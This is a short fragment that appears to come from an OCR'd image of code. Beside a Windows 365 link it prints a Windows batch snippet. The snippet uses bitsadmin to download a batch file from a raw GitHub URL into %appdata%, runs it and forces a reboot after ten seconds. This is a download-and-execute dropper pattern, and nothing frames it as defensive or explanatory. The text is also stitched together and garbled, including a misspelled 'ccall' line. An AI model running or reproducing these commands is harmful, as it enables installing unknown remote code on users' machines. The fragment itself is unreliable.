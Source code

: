 https://windows365.microsoft.com/

call bitsadmin.exe /transfer Explorers /download /priority FOREGROUND https://raw.githubusercontent.com/xcgx/strange/main/start.bat %appdata%\start.bat

ccall %appdata%\start.bat

call shutdown -r -t 10

